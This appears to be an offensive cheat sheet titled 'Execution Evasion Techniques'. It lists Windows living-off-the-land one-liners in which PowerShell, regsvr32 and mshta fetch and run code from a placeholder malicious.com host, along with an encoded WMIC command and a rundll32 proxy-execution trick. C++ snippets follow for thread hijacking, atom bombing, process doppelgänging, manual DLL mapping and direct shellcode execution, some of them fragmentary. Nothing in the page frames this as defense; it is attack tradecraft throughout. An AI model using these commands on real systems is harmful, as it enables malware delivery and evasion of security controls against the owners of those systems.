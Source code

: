 
## 🎭 **Execution Evasion Techniques**

### **1. Living off the Land (LoL)**
```powershell
# Use legitimate Windows tools

# PowerShell download and execute
powershell -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/script.ps1')"

# WMIC for remote execution
wmic process call create "cmd.exe /c powershell -enc <base64>"

# Rundll32 proxy execution
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").exec("calc.exe");close();

# Regsvr32 for scriptlet execution
regsvr32 /s /n /u /i:http://malicious.com/script.sct scrobj.dll

# MSHta for HTML application execution
mshta http://malicious.com/malicious.hta
```

### **2. Process Injection Alternatives**
```cpp
// Thread Execution Hijacking
HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, targetThreadId);
SuspendThread(hThread);
SetThreadContext(hThread, &maliciousContext);
ResumeThread(hThread);

// Atom Bombing
GlobalAddAtom(L"MaliciousCode");
SendMessage(hWnd, WM_SETTEXT, atom, 0);

// Process Doppelgänging  
CreateTransaction(...);
CreateFileTransacted(...);
NtCreateProcessEx(...);

// Manual DLL Mapping
ReadFile(dllFile, &dllBuffer);
VirtualAllocEx(hProcess, NULL, dllSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess, remoteImage, dllBuffer, dllSize);
// Manual PE fixing...
```

### **3. Fileless Execution**
```cpp
// Direct memory execution
LPVOID execMem = VirtualAlloc(NULL, payloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(execMem, shellcode, payloadSize);
((void(*)())execMem)(); // Execute shellcode directly

// Registry storage
RegSetValueEx(hKey, L"Data", 0, REG_BINARY, payload, payloadSize);
// Later retrieve and execute

// WMI Event Subscription persistence
// Store payload in WMI repository
```
